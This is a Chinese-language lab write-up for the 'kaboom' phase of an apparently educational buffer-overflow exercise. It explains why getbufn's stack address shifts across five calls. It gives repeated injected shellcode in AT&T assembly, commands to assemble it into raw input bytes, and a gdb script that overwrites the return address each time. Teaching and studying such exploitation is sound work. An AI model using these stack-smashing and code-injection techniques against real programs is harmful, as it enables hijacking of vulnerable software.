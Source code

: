 kaboom 启动需要加个 -n 参数，跟 boom 唯一的区别就是 test 换成了 testn，getbuf 换成了 getbufn。

抓关键来说，就是从一次 test 判断变成了 5 次 testn 判断，每次判断的逻辑不变。

简单观察下反汇编可以知道 getbufn 和 testn 都只在一个地方调用，所以 getbufn 返回 testn 的返回地址一定是固定的。

而一般情况下只要不整什么花活比如**栈上动态分配内存但是不释放**或者**内联汇编移动栈指针**，那 getbufn 在栈上开辟的缓冲区地址都是不会变的。

但是问题来了，它实际上是变动的！

若不考虑地址的变动问题，答案显而易见，把 phase 4 的攻击代码改改参数重复个 5 遍就行了。

由于 5 次 testn 调用相当于 5 次 getbufn 调用相当于 5 次读入，所以需要稍稍改改对应的代码。

编写仅供 gdb 调试用的 solve-kabomb.s 程序：

```assembly
.rept 5
    mov $0x7d97e567, %eax
    push $0x8048de5
    ret

    .byte 0x0a
.endr
```

> 以上代码不含栈帧恢复

前 3 条指令与 phase 4 逻辑一致，第四条 `db 0x0a` 定义了 1 字节值为 0x0a 的数据，即 '\n'，这被视为终止符结束一次 getbufn 输入。

> 使用的均为 AT&T 汇编，可以直接使用 gcc 或 as 进行编译。

编译指令：

```assembly
gcc -c solve-kabomb.s
objcopy -O binary -j .text solve-kabomb.o solve-kabomb.bin
```

将 solve-kabomb.bin 指定为输入并重新启动：

```gdb
b *(getbufn+26)
b *(getbufn+27)
define solve_once
set $eax=$ebp-0x208
printf "current dest ret addr: %#lx\n", $eax
c
set *(void**)$esp=$eax
c
end
c
solve_once
solve_once
solve_once
solve_once
solve_once
```
